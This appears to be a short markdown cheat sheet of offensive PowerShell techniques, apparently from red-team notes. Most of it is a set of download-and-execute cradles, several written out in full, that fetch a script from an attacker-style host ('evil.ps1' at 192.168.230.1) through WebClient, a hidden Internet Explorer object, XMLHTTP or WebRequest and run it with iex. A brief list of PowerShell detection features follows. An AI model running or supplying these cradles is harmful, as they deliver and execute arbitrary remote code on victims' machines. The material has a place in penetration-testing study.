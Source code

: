 ### Powershell Scripts/Modules


Import Script or Module :heavy_check_mark:
```
Import-Module C:\path\to\script.ps1
```

Find all commands in module 
```
Get-Command -Module <modulename>
```

Download & Execute Cradle :heavy_check_mark:
```
iex (New-Object Net.WebClient) .DownloadString('https://webservers/payload.ps1')
```

??
```
$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```
```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```




### Powershell Detection
- System-wide transcription
- Script Block Logging
- AMSI (AntMalware Scan Interface)
- CLM (Constrained Language Mode)
 - Integration with Applocker & WDAC (Device Guard)